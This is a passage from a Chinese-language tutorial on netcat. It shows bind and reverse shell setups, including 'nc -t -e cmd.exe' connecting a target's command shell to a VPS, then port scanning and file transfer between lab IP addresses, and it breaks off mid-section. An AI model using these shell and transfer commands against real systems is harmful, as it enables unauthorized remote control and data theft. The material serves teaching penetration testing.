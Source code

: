 ②在内网主动连接服务器的 5555 端口，可直接获取目标的 cmdshell  

```
nc -nvv 192.168.1.98 5555
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0Lwsq6dW4icoUmOkRaNPfBx9EylUYwib6tic9yd0VwTlTUu7vsUKAc77bQ/640?wx_fmt=png)  

反向连接场景：目标设备在内网，防火墙阻止外来流量。绑定服务器的 cmdshell 并反向连接到 vps(192.168.1.4) 的 TCP 端口  

①vps 开启监听

```
nc -lp 5555
```

②服务器内网链接 vps 5555 端口，主动交出自己的 cmdshell

```
nc -t -e cmd.exe 192.168.1.4 5555
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0giaxV7nboLXRfqKyXvDfFdlGGWVJFupmHGwLNEtHcGj6YzMJibO3jtIA/640?wx_fmt=png)  

### **2.2 端口探测**  

NC 可以作为客户端工具对目标进行端口探测：

```
nc -vz -w 2 192.168.1.10 9999
# -v可视化，-z扫描时不发送数据，-w超时几秒，后面跟数字
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0PcT09eUicUbFfChBk90UyPukm686HK6WjUUqqA59vbHc6nRvZuIwecQ/640?wx_fmt=png)使用 NC 工具批量探测服务器连续端口：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0uXjQPsUlvyTbClmAw9UYFVnmS79hr9XrOHPqSFGQrNz9w9d6NX0x6Q/640?wx_fmt=png)  

### **2.3 文件传输**  

**①**正向传输：服务器先侦听端口，本地向服务器所在机器的该端口发送数据

```
#服务器启动监听，将9995端口接收到的数据都写到test文件里
nc -l -p 9995 > test
```

```
#本地往服务器的9995端口发送数据
nc 192.168.1.4 9995 < 1.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS07gMicd5LQuEzb6qM5PN4Fh7dr1QovBlae1znS5AbkTBblv5gjTbHoZw/640?wx_fmt=png)

**②** 反向传输：本地启动文件发送命令，服务器主动连接下载文件

```
#本地启动文件发送命令，通过9992端口发送文件
nc -l -p 9992 < 1.php
```
